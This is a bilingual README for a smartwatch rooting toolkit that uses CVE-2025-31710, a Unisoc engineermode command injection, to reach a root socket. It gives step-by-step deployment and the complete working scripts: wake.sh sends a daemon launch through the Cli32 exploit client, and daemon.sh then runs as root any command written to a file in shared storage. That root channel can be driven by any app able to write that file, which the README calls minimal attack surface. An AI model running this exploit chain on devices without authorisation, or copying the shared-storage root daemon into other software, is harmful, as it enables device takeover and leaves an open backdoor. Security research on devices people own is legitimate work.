






# 360 11X W370 GhostRoot Toolkit (CVE-2025-31710)

A stealthy, persistent Local Privilege Escalation (LPE) research toolkit for the 360 11X W370 smartwatch (Unisoc SC8541E, Android 8.1, 32-bit ARM). It achieves root access without a PC, without unlocking the bootloader, and without modifying the system partition.

## Disclaimer and Compliance
FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY. 
This project is a Local Privilege Escalation (LPE) tool and requires a pre-existing local shell with uid=2000(shell). It is NOT a remote exploit, nor is it an automated jailbreak for general consumer devices. Please DO NOT use this tool on any device you do not own or have explicit permission to test. 

The exploitation of CVE-2025-31710 has been publicly documented and prior work by Skorpion96 was authorized by Unisoc for publication. This repository implements an alternative post-exploitation persistence mechanism (GhostRoot) and a toolkit on top of that vulnerability.

## Overview
This project exploits CVE-2025-31710, a command injection vulnerability in the Unisoc com.sprd.engineermode application. The exploit leverages a trusted socket (cmd_skt) belonging to the root-level cmd_services to execute commands with the highly privileged u:r:cmd_services:s0 SELinux context.

Because the target device aggressively kills background apps and locks the /system partition (dm-verity), traditional root methods (like Magisk or modifying /system/bin/su) are either impossible or highly risky. 

This repository implements **GhostRoot**: a file-based background daemon that survives app-killing, does not require TTY interaction, and can be revived instantly after a reboot. It also includes a **Toolkit** directory for customizations like safe font replacement.

## Screenshots / 演示流程

Here is the step-by-step demonstration of the toolkit on the actual device.
以下是该工具在真实设备上的操作演示：

| Step / 步骤 | Description / 说明 | Image / 截图 |
| :--- | :--- | :--- |
| **1. Target Device** | 360 11X W370 (Unisoc SC8541E, Android 8.1) 目标设备：360 11X W370 |  |
| **2. Shizuku Active** | Shizuku is activated to provide `uid=2000(shell)`. 激活 Shizuku 以获取 shell 权限。 |  |
| **3. Prepare Cli32** | Place the downloaded `Cli32` binary into the `scripts` folder. 将下载的 Cli32 放入 scripts 文件夹。 |  |
| **4. Deploy Daemon** | Run `wake.sh` inside aShell You to trigger the root service. 在 aShell You 中运行 wake.sh 唤醒底层服务。 |  |
| **5. Root Access** | Execute commands as root in MT Manager. 在 MT 管理器中以 root 身份执行命令。 |  |
| **6. Toolkit (Font)** | Safely change the system font using the `/tools` extension. 使用工具集安全替换系统字体。 |  |

## Vulnerability Mechanics & Design Trade-offs
### Why cmd_skt?
In the Unisoc platform, cmd_services runs as root and listens on the cmd_skt abstract Unix socket. To prevent unauthorized access, it only accepts connections from trusted clients (e.g., com.sprd.engineermode). CVE-2025-31710 allows command injection via the engineermode component, enabling an attacker to communicate with cmd_skt and execute arbitrary commands in the context of cmd_services.

### Why GhostRoot (File-Based Channel)?
On the 360 11X W370, background processes are aggressively killed by the OEM's task killer. Standard reverse shells (nc, socat) or interactive TTY sessions are instantly terminated. Furthermore, Android 8.1 lacks robust terminal emulators that can hold a persistent interactive root shell without triggering SELinux denials. 

GhostRoot bypasses these limitations by using the file system as an IPC (Inter-Process Communication) channel. A background daemon (daemon.sh) runs in the root context, polling a specific text file (cmd.txt). When a command is written to the file, the root daemon executes it and writes the output to out.txt. This design ensures 100% persistence as long as the daemon is alive, with minimal attack surface and zero TTY dependency.

## Prerequisites & Toolkit
1. Shell Access: You must have a local shell running as uid=2000(shell). On the 360 11X W370, this can be achieved via Shizuku using an ADB-capable terminal app (e.g., aShell You, Termux, or ADB shell).
   * Note: Installation packages for Shizuku and aShell You are provided in the /apks folder.
2. Exploit Binary: You need the Cli32 binary (a 32-bit ARM build of cli-pie). 
   * Download it directly from TomKing062's release page: https://github.com/TomKing062/cmd_services_client/releases/tag/v0.2.2
   * Integrity Verification (SHA-256): `3a893825922a4933035aeff6900a0ca9c816f9d159f42a20c11abae370b2268e`
3. Root Trigger: The com.sprd.engineermode package must be present (system app by default).

## Repository Contents
* `/apks`: Contains the installation packages for Shizuku and aShell You.
* `/scripts`: Core scripts (daemon.sh, rootcmd, wake.sh).
* `/tools`: Additional utilities (e.g., change_font).

---

## Step-by-Step Setup Guide

### Phase 1: Preparation
1. Download `Cli32` from the release page above and place it inside the `/scripts` folder.
2. Download this repository as a ZIP, extract it, and **Rename the extracted folder to exactly `360_W370_Ghost_root`**.
3. Move this folder to the root of your device's internal storage. (Path MUST be `/sdcard/360_W370_Ghost_root/`).
4. Open your terminal app and ensure you have `uid=2000(shell)`.

### Phase 2: One-Click Deployment
Run inside any shell environment with uid=2000 (e.g., aShell You):

   sh /sdcard/360_W370_Ghost_root/scripts/wake.sh

This script will automatically copy `Cli32` to `/data/local/tmp/`, trigger the root service, and start `daemon.sh` in the background.

### Phase 3: Usage
Once the script outputs "Root channel is ready!", execute any command as root:

In a normal shell (uid=2000):
/sdcard/360_W370_Ghost_root/scripts/rootcmd "id"

In an unprivileged app (like MT Manager's terminal):
sh /sdcard/360_W370_Ghost_root/scripts/rootcmd "id"

### Phase 4: Surviving a Reboot
If the watch reboots, the daemon dies. Reopen your shell (uid=2000) and simply run `wake.sh` again. Your root access is fully restored within 2 seconds.

---

## Bonus: Customization Tools (Safe Font Changer)
The `/tools/change_font` directory includes a script to safely replace the system's Chinese font in memory via `mount --bind`. It does not modify the system partition. A simple reboot will restore the original font.

**How to use:**
1. Ensure GhostRoot is active.
2. Place your `.ttf` or `.ttc` font files inside `/sdcard/360_W370_Ghost_root/tools/change_font/`.
3. Run the script:
   `sh /sdcard/360_W370_Ghost_root/tools/change_font/font.sh`
4. Enter the number corresponding to the font you want to apply. The UI will restart briefly.
*(Note: English fonts are intentionally untouched to prevent missing character boxes).*

* **IMPORTANT SIDE EFFECT:** Replacing the font and restarting the UI (`killall system_server`) will cause Shizuku to lose its shell (`uid=2000`) privileges. You may NOT be able to re-activate Shizuku immediately via wireless debugging. To fix this, you MUST reboot the device. After rebooting, re-activate Shizuku using the standard method, then run `wake.sh` to restore root access.
* **重要副作用**：替换字体并刷新 UI（重启 system_server）会导致 Shizuku 的 shell 权限丢失，且可能无法立刻通过无线调试重新激活。解决方法是**重启手表**。重启后，你需要重新通过常规方法激活 Shizuku，然后再运行 `wake.sh` 恢复 Root 权限。

---

## Script Sources

### 1. scripts/daemon.sh
#!/system/bin/sh
DIR="/sdcard/360_W370_Ghost_root/scripts"
while true; do 
  if [ -f "$DIR/cmd.txt" ]; then 
    sh "$DIR/cmd.txt" > "$DIR/out.txt" 2>&1
    chmod 666 "$DIR/out.txt"
    rm -f "$DIR/cmd.txt"
  fi
  sleep 1
done

### 2. scripts/rootcmd
#!/system/bin/sh
DIR="/sdcard/360_W370_Ghost_root/scripts"
rm -f "$DIR/out.txt"
echo "$@" > "$DIR/cmd.txt"
if [ ! -f "$DIR/cmd.txt" ]; then
    echo "[-] Error: Cannot write cmd.txt. Permission denied."
    exit 1
fi
sleep 1.5
if [ ! -f "$DIR/out.txt" ]; then
    echo "[-] Error: Daemon not responding. Did you run wake.sh in a shell with uid=2000?"
    exit 1
fi
cat "$DIR/out.txt"

### 3. scripts/wake.sh
#!/system/bin/sh
DIR="/sdcard/360_W370_Ghost_root/scripts"
CURRENT_UID=$(id -u)
if [ "$CURRENT_UID" != "2000" ] && [ "$CURRENT_UID" != "0" ]; then
    echo "[-] Error: Permission denied."
    exit 1
fi
if [ -f "$DIR/Cli32" ]; then
    echo "[-] Found Cli32, deploying to /data/local/tmp..."
    mkdir -p /data/local/tmp
    cp "$DIR/Cli32" /data/local/tmp/Cli32
    chmod 755 /data/local/tmp/Cli32
fi
if [ ! -f "/data/local/tmp/Cli32" ]; then
    echo "[-] Error: /data/local/tmp/Cli32 not found. Deployment failed."
    exit 1
fi
rm -f "$DIR/cmd.txt" "$DIR/out.txt"
setprop persist.sys.cmdservice.enable enable
sleep 1
echo "[-] Triggering root service..."
echo "nohup sh $DIR/daemon.sh >/dev/null 2>&1 &" | /data/local/tmp/Cli32 2>&1 | grep -v -E "Error reading input|Try again"
echo "[-] Root channel is ready! Deployed at: $DIR"

---

## Warnings & Limitations
* DO NOT attempt to run "mount -o remount,rw /system". The system is protected by dm-verity. Attempting to write to /system will cause a bootloop.
* DO NOT attempt to flash a patched boot.img unless the bootloader is explicitly unlocked. 
* No TTY support: interactive commands like top or vi will not render correctly through the file channel.

---

## Credits & Acknowledgements
* Vulnerability Discovery: Skorpion96 (CVE-2025-31710).
* Exploit Client: TomKing062 (cli-pie).
* GhostRoot Architecture & Implementation: Developed through a collaborative debugging and reverse-engineering session with DeepSeek (AI Assistant).

If you find any errors or have any questions, please feel free to send an email to huangxuanran.china@gmail.com for corrections.

---
---

# 360 11X W370 幽灵Root工具集 (CVE-2025-31710)

一款针对 360 11X W370 智能手表（展锐 SC8541E，Android 8.1，32位 ARM）的隐蔽、持久化本地提权（LPE）研究工具集。它无需电脑、无需解锁 Bootloader，且不会修改系统分区即可获取 Root 权限，并附带字体替换等扩展工具。

## 免责声明与合规性
仅供教育和研究目的使用。本项目是一个本地提权（LPE）工具，需要设备上已有 uid=2000(shell) 的本地终端环境。它不是远程漏洞利用，请勿在您不拥有或未经授权测试的设备上使用此工具。

## 概述
本项目利用了展锐 com.sprd.engineermode 应用中的命令注入漏洞 CVE-2025-31710。由于目标设备会激进地查杀后台应用，并锁定 /system 分区（dm-verity），传统的 Root 方法要么不可行，要么风险极高。

本工具集实现了 **GhostRoot（幽灵Root）**：一个基于文件的驻留后台服务，它可以抵抗后台查杀，无需交互式终端（TTY）支持，并且可以在重启后瞬间复活。同时附带 **Toolkit** 目录，用于安全地自定义系统（如换字体）。

## 仓库内容
* `/apks`：包含 Shizuku 和 aShell You 的安装包。
* `/scripts`：核心脚本（daemon.sh, rootcmd, wake.sh）。
* `/tools`：扩展工具箱（包含安全换字体等工具）。

---

## 逐步设置指南

### 阶段一：准备工作
1. 将下载的 `Cli32` 放入本仓库的 `/scripts` 文件夹中。
2. 下载本仓库 ZIP 并解压，**将解压出来的文件夹重命名为完全一致的 `360_W370_Ghost_root`**。
3. 将该文件夹移动到手机内部存储的根目录（最终路径必须是 `/sdcard/360_W370_Ghost_root/`）。
4. 确保你拥有 `uid=2000(shell)` 权限的终端。

### 阶段二：一键部署
在终端中运行：
`sh /sdcard/360_W370_Ghost_root/scripts/wake.sh`

### 阶段三：使用方法
在非特权应用（如 MT 管理器）中，必须加 `sh` 前缀执行 Root 命令：
`sh /sdcard/360_W370_Ghost_root/scripts/rootcmd "id"`

### 阶段四：重启后复活
重启后，只需在终端重新运行一次 `wake.sh`，2秒内即可恢复所有 Root 权限。

---

## 进阶：自定义工具（安全换字体）
`/tools/change_font` 目录包含换字体脚本。它通过内存挂载（mount --bind）只替换中文字体，不修改系统分区，重启后自动恢复。
**用法：**
1. 确保 GhostRoot 处于激活状态。
2. 将你的 `.ttf` 或 `.ttc` 字体文件放入 `/sdcard/360_W370_Ghost_root/tools/change_font/` 目录。
3. 运行 `sh /sdcard/360_W370_Ghost_root/tools/change_font/font.sh` 并根据提示输入数字即可。
*(注：不会修改英文字体，避免英文变方块。)*

* **重要副作用**：替换字体并刷新 UI（重启 system_server）会导致 Shizuku 的 shell 权限丢失，且可能无法立刻通过无线调试重新激活。解决方法是**重启手表**。重启后，你需要重新通过常规方法激活 Shizuku，然后再运行 `wake.sh` 恢复 Root 权限。

---

## 警告与限制
* 切勿尝试修改 `/system` 分区，会触发 dm-verity 导致变砖。
* 不支持 TTY 交互式命令。

---

## 致谢
* 漏洞发现：Skorpion96
* 利用客户端：TomKing062
* GhostRoot 架构与工具集实现：与 DeepSeek (AI) 协作开发。
